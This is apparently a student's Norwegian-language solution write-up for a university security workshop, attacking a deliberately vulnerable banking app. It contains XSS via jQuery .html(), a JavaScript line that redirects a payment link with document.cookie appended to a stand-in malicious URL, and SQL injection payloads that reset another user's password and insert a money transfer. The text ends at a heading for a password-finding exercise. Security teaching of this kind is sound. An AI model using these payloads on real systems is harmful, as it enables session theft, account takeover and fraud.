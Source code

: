 ## IDATT2105 Full-stack applikasjonsutvikling
# Sikkherhetsworkshop

## Oppgave 1 (A3)

- Klarer du å injisere javascript inn i nettsidene? 

-  Klarer du å være så ekkel at du legger inn en betaling til sidemannen som gjør at de blir omdirigert til en ondsinnet side med innholdet av cookiene som parameter når de går inn på "konto" i sin nettbank?

## Løsning:

### Injisere javascript

Fra Jquery dokumentasjonen kan vi se at .html() metoden åpner opp siden til cross site scripting.

> By design, any jQuery constructor or method that accepts an HTML string — jQuery(), .append(), .after(), etc. — can potentially execute code. This can occur by injection of script tags or use of HTML attributes that execute code (for example, <img onload="">). Do not use these methods to insert strings obtained from untrusted sources such as URL query parameters, cookies, or form inputs. Doing so can introduce cross-site-scripting (XSS) vulnerabilities. Remove or escape any user input before adding content to the document.

Med metoden initTable så kan vi også å sende en beskrivelse med script i kan man få kode til kjøre på andre sine nettlesere.

![](2021-04-09-12-42-35.png)

Her ser vi hvordan dette kommer opp i HTMLen

![](2021-04-09-12-44-01.png)

Når en annen åpner opp siden får de dette:

![](2021-04-09-12-43-26.png)

### Betaling som omdirigerer med cookie

Vi kan bruke denne javascript koden til å forandre på hvor betaling knappen sender oss.

```javascript
document
.querySelector("#navbar > ul:nth-child(1) > li:nth-child(3) > a")
.setAttribute('href', "www.ourevilsite.com");
```

Om vi ønsker å hente ut cookie data kan vi bruke document.cookie

```javascript
.setAttribute('href', "https://www.test.com/" + document.cookie)
```

Her ser vi hvor man blir derigert etter man trykker på betaling knappen:

![](2021-04-09-12-46-55.png)

## Oppgave 2 (A1)

- Klarer du å endre passordet til en annen i gruppa ved å bruke SQLinjection? 

- Klarer du å overføre masse penger til deg selv fra en annen i gruppa ved å bruke SQL-injection? 


## Løsning

### Endre passord til en annen i gruppa

Passord blir ikke rengjort/escaped på serveren så her kan vi bruke SQLinjection.
For eksempel på metoden addUser kan vi med et spesefikt passord lage vår egen query

![](2021-04-09-12-49-00.png)

For å gjennomføre en SQL injection legger vi passordet som:
```SQL
123'); 
UPDATE user SET password = 'easyPassword' WHERE (email = '123@hotmail.com
```

Dette slutter den orginale SQL spørringen og begynner vår egen der vi forandrer på passordet. 

En parentes og apostrof brukes på slutten av meldingen så det fungerer sammen med slutten av kommandoen som står i serveren.


### Overføre masse penger til deg selv fra en annen i gruppa

Når vi ønsker å sende en transaksjon kan vi bare bytte ut UPDATE user med en INSERT INTO transaction. 

Kommandoen vi brukte er:

```SQL
123'); 
INSERT INTO transaction (from_email,to_email,text,amount,transaction_time) 
VALUES('123@hotmail.com', 'jesperfh@ntnu.no','hei hei lettjente penger',5000,'2021-01-19 03:14:07
```

Dette er resultatet:

![](2021-04-09-12-52-41.png)

## Oppgave 3 (A7 og A2)

- Klarer du å finne passordet til en på gruppa di, kun ved å bruke
nettleseren?

- Identifiser 2 grove mangler i applikasjonen.

## Løsning

### Finne passord ved å bruke nettleseren